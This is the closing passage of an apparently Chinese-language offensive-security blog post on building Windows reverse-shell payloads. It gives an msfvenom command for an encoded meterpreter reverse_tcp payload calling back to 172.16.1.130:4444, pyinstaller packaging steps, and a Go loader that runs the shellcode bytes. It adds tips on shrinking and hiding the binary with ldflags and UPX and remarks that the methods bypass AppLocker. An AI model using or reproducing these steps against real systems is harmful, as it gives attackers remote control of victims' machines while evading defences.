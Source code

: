 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.1.130 -e x86/shikata_ga_nai -i 5 -f py -o  1.py
```

使用pyinstaller打包

```bash
pyinstaller.py -F --console 1.py
```

和pyinstaller类似的还有py2exe，不再赘述。

### go+upx

```go
package main

import "C"
import "unsafe"

func main() {
    buf := ""
    buf += "\xdd\xc6\xd9\x74\x24\xf4\x5f\x33\xc9\xb8\xb3\x5e\x2c"
    ...省略...
    buf += "\xc9\xb1\x97\x31\x47\x1a\x03\x47\x1a\x83\xc7\x04\xe2"
    // at your call site, you can send the shellcode directly to the C
    // function by converting it to a pointer of the correct type.
    shellcode := []byte(buf)
    C.call((*C.char)(unsafe.Pointer(&shellcode[0])))
}
```

如果正常编译体积会很大，建议使用`go build -ldflags="-s -w"`参数来编译生成exe，你也可以`go build -ldflags="-H windowsgui -s -w"`去掉命令窗口

编译出来900多kb，在使用upx压缩一下会降低到200kb左右，也能正常上线。

## 写在文后

本文所讲到的很多姿势实际上是用来bypass applocker，不过也能弹回来会话。

实战环境复杂，更多情况下请自行判断该使用什么姿势，实际上有时候你折腾半天不上线还不如直接一个bash反弹回来方便。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**


